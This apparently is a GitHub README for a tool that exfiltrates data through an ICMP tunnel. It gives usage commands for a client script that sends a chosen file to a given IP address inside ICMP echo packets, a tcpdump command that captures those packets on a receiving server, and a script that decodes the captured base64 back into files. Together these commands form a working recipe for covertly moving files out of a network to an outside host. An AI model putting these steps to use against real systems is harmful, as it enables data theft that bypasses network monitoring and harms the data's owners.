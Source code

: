 # Data Ex-filteration over ICMP Tunnel

### Usage:

at the client end:

```python icmp_transmitter.py  "input_file_to_be_sent" "IP_address_to_be_sent"```

at the server end:
 
run tcpdump. Use the following command :

```sudo tcpdump -i eth0 icmp and icmp[icmptype]=icmp-echo -XX -vvv -w output.txt```

for example:
tcpdump -i  eth0  host xx.xx.xx.xx  and icmp and icmp[icmptype]=icmp-echo -XX -vvv -w  output.txt

Use icmptofile.py to decode the base64 data to respective format

```python icmptofile.py output,txt"```

